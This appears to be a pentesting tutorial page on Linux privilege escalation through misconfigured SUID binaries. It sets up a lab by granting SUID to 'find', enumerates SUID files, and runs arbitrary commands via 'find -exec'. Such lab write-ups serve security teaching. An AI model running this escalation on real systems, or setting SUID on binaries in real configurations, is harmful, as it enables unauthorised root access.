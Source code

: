 ```yaml
---
title: Improperly Configured SUID Binaries
layout: default
parent: Linux Vulnerabilities
grand_parent: Pentesting
nav_order: 2
---
```


# Improperly Configured SUID Binaries

## Introduction

The Set User ID (SUID) permission is a critical feature in Linux that empowers users to execute a file with the privileges of a specified user, typically the file's owner. When binaries or commands are configured with the SUID bit, they run with elevated privileges, allowing users to perform actions that would otherwise be restricted. This becomes particularly significant when accessing a system as a non-root user, as it opens avenues for privilege escalation.

The discovery of binaries with the SUID bit set can present opportunities for non-root users to execute these files with root-level permissions. Certain well-known Linux and Unix executables, when configured with the SUID bit, can become powerful tools for privilege escalation. Some notable examples include Bash, Cat, cp, echo, find, Less, More, Nano, Nmap, Vim, and others. Leveraging these binaries, users can escalate their privileges, gaining access to sensitive system resources and functionalities reserved for the root user.

On this instance, we will be using the **'find'** binary for privilege escalation.

## Step-by-Step Guide

### **Setup**

#### 1. Create a user that should not be a sudo group user

```bash
┌──(root㉿workstation)-[~]
└─> sudo adduser notroot
```
![Add 'notroot' user](add_notroot_user.png)

#### 2. Give SUID permission to 'find' command

```bash
┌──(root㉿workstation)-[~]
└─> chmod u+s /usr/bin/find
```
![Add SUID permission to 'notroot' user](add_suid_permission.png)

### **Exploitation**

#### 1. Switch or Login as 'notroot'

```bash
┌──(notroot㉿workstation)-[~]
└─>
```

![Login as 'notroot' user](login_as_notroot.png)

#### 2. Enumerate all binaries having SUID permission

This command is used to enumerate and check all binaries with SUID permissions: *find / -perm -u=s -type f 2>/dev/null*

```bash
┌──(notroot㉿workstation)-[~]
└─> find / -perm -u=s -type f 2>/dev/null
```
![Enumerate all binaries with SUID permisssions](enumerate_suid_permissions.png)

Above result shows 'find' command has SUID bit enabled.

#### 3. Exploit: Execute any command within 'find' command

```bash
┌──(notroot㉿workstation)-[~]
└─> touch <file_name>

┌──(notroot㉿workstation)-[~]
└─> find <file_name> -exec <command> \;
```
![Execute any command](execute_any_command.png)

## Video Demonstration

[<img src="https://img.youtube.com/vi/cetPsoJYirA/hqdefault.jpg"
/>](https://www.youtube.com/embed/cetPsoJYirA)


## Reference
https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/


